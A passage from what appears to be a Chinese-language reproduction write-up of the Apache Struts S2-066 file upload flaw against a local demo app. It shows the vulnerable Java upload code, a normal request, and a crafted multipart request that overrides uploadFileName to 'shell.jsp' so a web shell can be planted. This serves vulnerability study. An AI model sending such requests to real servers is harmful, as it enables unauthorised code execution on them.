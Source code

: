 ```bash
        String realPath = path + File.separator +uploadFileName;
        try {
            FileUtils.copyFile(upload, new File(realPath));
        } catch (Exception e) {
            e.printStackTrace();
        }
        return SUCCESS;
    }

}
```

请求包

```bash
POST /S2_066_demo_war_exploded/upload.action HTTP/1.1
Host: localhost:9098
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=67F2A7C42488ED1B38910F7938FBAE8B
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Length: 187

------WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Disposition: form-data; name="upload"; filename="aaa.tx1t"
Content-Type: text/plain

xxx
------WebKitFormBoundaryfCZX2JnRcn31usNI--
```

## 漏洞复现

使用如下包即可将上传文件名覆盖为 shell.jsp

```bash
POST /S2_066_demo_war_exploded/upload.action?uploadFileName=shell.jsp HTTP/1.1
Host: localhost:9098
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=67F2A7C42488ED1B38910F7938FBAE8B
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Length: 187

------WebKitFormBoundaryfCZX2JnRcn31usNI
Content-Disposition: form-data; name="Upload"; filename="aaa.tx1t"
Content-Type: text/plain

xxx
```